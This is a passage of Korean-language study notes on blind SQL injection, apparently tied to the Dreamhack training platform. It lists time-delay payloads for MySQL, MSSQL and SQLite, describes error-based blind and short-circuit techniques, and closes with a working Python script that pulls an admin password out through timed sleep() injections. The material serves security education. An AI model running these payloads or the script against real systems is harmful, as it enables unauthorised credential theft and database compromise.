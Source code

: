           - MySQL
            - sleep 함수 `SLEEP(duration)`
            - benchmark 함수 - expr 식을 count 수만큼 실행하며 시간지연이 발생 `BENCHMARK(count, expr)`
            - heavy query  
              `information_schema.tables` 테이블은 MySQL 에서 기본적으로 제공하는 시스템 테이블이며  
              기본적으로 많은 수의 데이터가 포함되어 있는 테이블이다
              이러한 데이터가 포함된 테이블을 연산 과정에 포함시켜 시간 지연
          - MSSQL
            - waitfor `waitfor delay 'time_to_pass';`
            - heavy query
          - SQLite
            - heavy query  
              `LIKE('ABCDEFG', UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))`

      - _Error Based Blind_

        - 임의적으로 에러 발생을 일으켜 참/거짓을 판단하는 공격 기법
        - Error Based은 에러 메시지를 통해 데이터가 출력되는 에러를 이용해야 하는 반면
          Error Based Blind는 에러 발생 여부만 확인하면 됨

      - _Short-circuit evaluation_

        - 로직 연산의 원리를 이용한 방법
        - A가 거짓이라면 B의 결과와는 상관 없이 결과가 거짓 따라서 실제롤 B식을 수행하지 않는 것을 의미

      - **Blind SQL Injection Tip-1**

        - ASCII에서 출력 가능한 문자의 범위는 32~126으로 총 94개 문자 존재, 따라서 최악의 경우 94번의 요청을 전송해야함
        - 이는 비효율적이므로 다음과 같의 좀 더 효율적으로 수행하는 방법들이 존재함

        - _Binary Search_

          1. 범위 내의 중간 값을 지정하고 값을 비교
          2. 지정한 값이 찾고자 하는 값과 비교하고 범위를 조절
          3. 위 과정을 반복하여 특정한 값 찾음

        - _bit 연산_
          - ASCII는 7개의 비트를 통해 하나의 문자를 나타냄
          - 7번의 요청을 통해 한 바이트를 획득할 수 있음

      - **Blind SQL Injection Tip-2**

        - Blind SQL Injection은 다수의 요청을 통해 결과를 획득하는 공격 기법
        - 사용자가 직접 입력하는 방식은 물리적 한계 => 스크립트를 작성하여 공격 수행

        - 예시

          ```python
          #!/usr/bin/env python3
          import requests
          URL = "http://sqltest.dreamhack.io"
          DATA = ""
          for index in range(1, 100):
            for chars in range(32, 127):
              payload = "/?username='or if((select ord(substr(password,%s,1)) from users where username='admin')=%s, sleep(2), 0)-- -" %(index, chars)
              addr = URL + payload
              ret = requests.get(addr)
              loadTime = ret.elapsed.total_seconds()
              if loadTime > 1.9:
                DATA += chr(chars)
                print(DATA)
                break
          print(DATA)
          ```
